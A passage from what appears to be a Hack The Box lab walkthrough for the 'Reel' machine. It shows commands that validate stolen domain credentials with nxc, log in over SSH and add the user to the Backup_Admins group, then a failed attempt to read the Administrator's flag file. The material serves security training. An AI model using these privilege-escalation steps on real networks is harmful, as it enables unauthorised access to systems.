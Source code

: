 Now, we can validate the credentials, use them to SSH as the user `claire` and add her to the `Backup_Admins` group.

{% code overflow="wrap" %}
```bash
# confirm credentials
$ nxc smb 10.10.10.77 -u claire -p 'Password123!'
SMB         10.10.10.77     445    REEL             [*] Windows Server 2012 R2 Standard 9600 x64 (name:REEL) (domain:HTB.LOCAL) (signing:True) (SMBv1:True)
SMB         10.10.10.77     445    REEL             [+] HTB.LOCAL\claire:Password123!

# log into SSH
$ ssh claire@10.10.10.77
# check current group members
claire@REEL C:\Users\claire>net groups /domain Backup_Admins
Group name     Backup_Admins
Comment

Members

-------------------------------------------------------------------------------
ranj
The command completed successfully.
# add claire to the group
claire@REEL C:\Users\claire>net group /domain Backup_Admins claire /add
The command completed successfully.
# confirm membership
claire@REEL C:\Users\claire>net groups /domain Backup_Admins
Group name     Backup_Admins
Comment

Members

-------------------------------------------------------------------------------
claire                   ranj
The command completed successfully.
```
{% endcode %}

Unfortunately, the `Backup_Admins` members seem able to just list the `Administrator`'s directory, but not read the `root.txt` file.

```bash
# list administrator's desktop
$ ssh claire@10.10.10.77 'dir c:\users\administrator\desktop\'
claire@10.10.10.77's password:
 Volume in drive C has no label.
 Volume Serial Number is CEBA-B613

 Directory of c:\users\administrator\desktop

01/21/2018  02:56 PM    <DIR>          .
01/21/2018  02:56 PM    <DIR>          ..
11/02/2017  09:47 PM    <DIR>          Backup Scripts
03/22/2024  11:29 AM                34 root.txt
               1 File(s)             34 bytes
               3 Dir(s)   4,853,288,960 bytes free

# read the flag
$ ssh claire@10.10.10.77 'type c:\users\administrator\desktop\root.txt'
claire@10.10.10.77's password:
Access is denied.
```


[^1]: Living Off The Land
[^2]: Elevation of Privileges
[^3]: Elevation of Privileges
[^4]: Living Off The Land
[^5]: Elevation of Privileges
[^6]: Living Off The Land